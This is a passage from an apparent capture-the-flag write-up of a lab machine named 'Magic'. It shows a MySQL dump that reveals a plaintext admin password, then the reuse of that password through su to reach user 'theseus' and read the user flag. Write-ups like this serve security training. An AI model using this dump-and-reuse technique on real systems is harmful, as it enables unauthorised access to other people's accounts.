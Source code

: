 ```bash
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
mysqldump: Got error: 1044: Access denied for user 'theseus'@'localhost' to database 'iamkingtheseus' when selecting the database
```

We still get an error but we don't really care as we now have a new `password` from the tables regardless. Let's try to log on as `theseus` with this password

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ cd
cd
theseus@ubuntu:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
theseus@ubuntu:~$ cat user.txt
cat user.txt
0e...........................c0

```
